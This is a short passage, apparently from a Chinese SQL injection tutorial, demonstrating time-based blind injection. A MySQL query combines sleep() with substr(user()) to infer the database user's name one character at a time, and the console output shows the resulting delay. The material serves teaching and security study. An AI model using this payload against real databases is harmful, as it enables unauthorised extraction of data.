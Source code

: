 

sleep(t);休眠t秒

```
mysql> select 1 and if((substr(user(),1,1)='r'),sleep(10),1);#判断用户第一个字符是否为r
+------------------------------------------------+
| 1 and if((substr(user(),1,1)='r'),sleep(10),1) |
+------------------------------------------------+
|                                              0 |
+------------------------------------------------+
1 row in set (10.00 sec)
```

